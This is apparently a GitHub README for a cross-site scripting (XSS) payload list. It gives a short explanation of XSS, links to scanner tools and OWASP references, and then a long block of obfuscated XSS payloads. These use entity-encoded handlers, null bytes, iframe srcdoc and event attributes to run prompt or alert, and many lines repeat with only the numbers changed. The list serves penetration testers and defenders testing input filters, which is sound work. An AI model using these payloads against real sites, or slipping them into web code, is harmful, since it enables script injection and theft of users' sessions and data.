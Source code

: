 ### 🚀 Cross Site Scripting ( XSS ) Vulnerability Payload List 🚀

<img src="https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e154dd8e8829/media/badge.svg"> <img src="https://img.shields.io/github/stars/payloadbox/xss-payload-list?style=social"> <img src="https://img.shields.io/github/forks/payloadbox/xss-payload-list?style=social"> <img src="https://img.shields.io/github/repo-size/payloadbox/xss-payload-list"> <img src="https://img.shields.io/github/license/payloadbox/xss-payload-list"> <img src="https://img.shields.io/github/issues/detail/author/payloadbox/xss-payload-list/1">

##### Overview : 

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted web sites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page. For more details on the different types of XSS flaws, see: [Types of Cross-Site Scripting](https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting).

#### XSS Vulneability Scanner Tool's :

* [XSStrike](https://github.com/UltimateHackers/XSStrike)

* [BruteXSS Terminal](https://github.com/shawarkhanethicalhacker/BruteXSS)

* [BruteXSS GUI](https://github.com/rajeshmajumdar/BruteXSS)

* [XSS Scanner Online](http://xss-scanner.com/)

* [XSSer](https://tools.kali.org/web-applications/xsser)

* [xsscrapy](https://github.com/DanMcInerney/xsscrapy)

#### XSS Payload List :

```
<!-- Project Name  : Cross Site Scripting ( XSS ) Vulnerability Payload List -->
<!--        Author : Ismail Tasdelen -->
<!--      Linkedin : https://www.linkedin.com/in/ismailtasdelen/ -->
<!--        GitHub : https://github.com/ismailtasdelen/ -->
<!--       Twitter : https://twitter.com/ismailtsdln -->
<!--        Medium : https://medium.com/@ismailtasdelen -->



<iframe %00 src="&Tab;javascript:prompt(122)&Tab;"%00>
<ScRipT 5-0*3+9/3=>prompt(2)</ScRipT giveanswerhere=?
</script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
<img/&#09;&#10;&#11; src=`~` onerror=prompt(3)>
<a&#32;href&#61;&#91;&#00;&#93;"&#00; onmouseover=prompt&#40;1&#41;&#47;&#47;">XYZ</a
<img/src=@&#32;&#13; onerror = prompt('&#49;')
<style/onload=prompt&#40;'&#88;&#83;&#83;'&#41;
<iframe srcdoc='&lt;body onload=prompt&lpar;1&rpar;&gt;'>
<img/src='http://i.imgur.com/P8mL8.jpg' onmouseover=&Tab;prompt(4)
/*iframe/src*/<iframe/src="<iframe/src=@"/onload=prompt(5) /*iframe/src*/>
<a/href="javascript:&#13; javascript:prompt(6)"><input type="X">
</plaintext\></|\><plaintext/onmouseover=prompt(7)
<iframe style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(8)">
<var onmouseover="prompt(9)">On Mouse Over</var>
<img src="/" =_=" title="onerror='prompt(10)'">
<iframe/src \/\/onload = prompt(11)
<div style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(12)" onclick="alert(13)">x</button>
<iframe %00 src="&Tab;javascript:prompt(14)&Tab;"%00>
<ScRipT 5-0*3+9/3=>prompt(15)</ScRipT giveanswerhere=?
</script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
<img/&#09;&#10;&#11; src=`~` onerror=prompt(17)>
<a&#32;href&#61;&#91;&#00;&#93;"&#00; onmouseover=prompt&#40;1&#41;&#47;&#47;">XYZ</a
<img/src=@&#32;&#13; onerror = prompt('&#49;')
<style/onload=prompt&#40;'&#88;&#83;&#83;'&#41;
<iframe srcdoc='&lt;body onload=prompt&lpar;1&rpar;&gt;'>
<img/src='http://i.imgur.com/P8mL8.jpg' onmouseover=&Tab;prompt(22)
/*iframe/src*/<iframe/src="<iframe/src=@"/onload=prompt(23) /*iframe/src*/>
<a/href="javascript:&#13; javascript:prompt(24)"><input type="X">
</plaintext\></|\><plaintext/onmouseover=prompt(25)
<iframe style="xg-p:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(26)">
<var onmouseover="prompt(27)">On Mouse Over</var>
<img src="/" =_=" title="onerror='prompt(28)'">
<iframe/src \/\/onload = prompt(29)
<div style="xg-p:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(30)" onclick="alert(1)">x</button>
0\"autofocus/onfocus=alert(1)--><video/poster/onerror=prompt(2)>"-confirm(3)-"
0\"autofocus/onfocus=alert(1)--><video/poster/ error=prompt(2)>"-confirm(3)-"
<iframe  src="&Tab;javascript:prompt(444)&Tab;">
<ScRipT 5-0*3+9/3=>prompt(124)</ScRipT giveanswerhere=?
<form><a href="javascript:\u0061lert&#x28;1&#x29;">X</script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>
<img/&#09;&#10;&#11; src=`~` onerror=prompt(2421)>
<a&#32;href&#61;&#91;&#00;&#93;"&#00; onmouseover=prompt&#40;1&#41;&#47;&#47;">XYZ</a
<img/src=@&#32;&#13; onerror = prompt('&#49;')
<style/onload=prompt&#40;'&#88;&#83;&#83;'&#41;
<iframe srcdoc='&lt;body onload=prompt&lpar;1&rpar;&gt;'>
<img/src='http://i.imgur.com/P8mL8.jpg' onmouseover=&Tab;prompt(1555)
/*iframe/src*/<iframe/src="<iframe/src=@"/onload=prompt(1251) /*iframe/src*/>
<a/href="javascript:&#13; javascript:prompt(4641)"><input type="X">
</plaintext\></|\><plaintext/onmouseover=prompt(001)
<iframe style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(166)">
<var onmouseover="prompt(1125)">On Mouse Over</var>
<img src="/" =_=" title="onerror='prompt(25252512)'">
<iframe/src \/\/onload = prompt(111111)
<div style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(252525)" onclick="alert(1)">x</button>
<iframe  src="&Tab;javascript:prompt(1)&Tab;">
<ScRipT 5-0*3+9/3=>prompt(1)</ScRipT giveanswerhere=?
</script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>
<img/&#09;&#10;&#11; src=`~` onerror=prompt(1)>
<a&#32;href&#61;&#91;&#00;&#93;"&#00; onmouseover=prompt&#40;1&#41;&#47;&#47;">XYZ</a
<img/src=@&#32;&#13; onerror = prompt('&#49;')
<style/onload=prompt&#40;'&#88;&#83;&#83;'&#41;
<iframe srcdoc='&lt;body onload=prompt&lpar;1&rpar;&gt;'>
<img/src='http://i.imgur.com/P8mL8.jpg' onmouseover=&Tab;prompt(180980)
/*iframe/src*/<iframe/src="<iframe/src=@"/onload=prompt(1125125) /*iframe/src*/>
<a/href="javascript:&#13; javascript:prompt(1125125)"><input type="X">
</plaintext\></|\><plaintext/onmouseover=prompt(1251251251)
<iframe style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1125125)">
<var onmouseover="prompt(1)">On Mouse Over</var>
<img src="/" =_=" title="onerror='prompt(1125125125)'">
<iframe/src \/\/onload = prompt(1251251)
<div style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(15555555)" onclick="alert(1)">x</button>



#### References :

###### Cross-site Scripting (XSS)

* 👉 https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)

###### XSS (Cross Site Scripting) Prevention Cheat Sheet

* 👉 https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet

###### DOM based XSS Prevention Cheat Sheet

* 👉 https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet

###### Testing for Reflected Cross site scripting (OTG-INPVAL-001)

* 👉 https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001)

###### Testing for Stored Cross site scripting (OTG-INPVAL-002)

* 👉 https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002)

###### Testing for DOM-based Cross site scripting (OTG-CLIENT-001)

* 👉 https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001)

###### DOM Based XSS

* 👉 https://www.owasp.org/index.php/DOM_Based_XSS

###### Cross-Site Scripting (XSS) Cheat Sheet | Veracode

* 👉 https://www.veracode.com/security/xss

#### Recommended books :

* [XSS Attacks: Cross-site Scripting Exploits and Defense](https://books.google.com.tr/books/about/XSS_Attacks.html?id=dPhqDe0WHZ8C)

* [XSS Cheat Sheet](https://leanpub.com/xss)


### Cloning an Existing Repository ( Clone with HTTPS )
```
root@ismailtasdelen:~# git clone https://github.com/ismailtasdelen/xss-payload-list.git
```

### Cloning an Existing Repository ( Clone with SSH )
```
root@ismailtasdelen:~# git clone git@github.com:ismailtasdelen/xss-payload-list.git
```

### Published Website :

##### Kitploit - https://www.kitploit.com/2018/05/xss-payload-list-cross-site-scripting.html

### Donate!

Support the authors:

#### LiberaPay:

<noscript><a href="https://liberapay.com/ismailtasdelen/donate"><img alt="Donate using Liberapay" src="https://liberapay.com/assets/widgets/donate.svg"></a></noscript>
